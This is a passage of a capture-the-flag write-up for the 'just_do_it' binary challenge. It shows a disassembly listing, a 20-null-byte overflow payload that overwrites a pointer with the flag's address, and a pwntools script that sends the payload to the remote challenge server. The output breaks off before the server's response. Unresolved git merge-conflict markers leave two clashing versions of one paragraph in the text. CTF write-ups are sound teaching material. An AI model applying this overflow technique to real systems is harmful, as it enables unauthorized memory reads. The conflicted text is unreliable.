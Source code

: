   .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```
<<<<<<< HEAD
 
  So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `output_message` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:
 
=======

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:

>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$    python exploit.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.
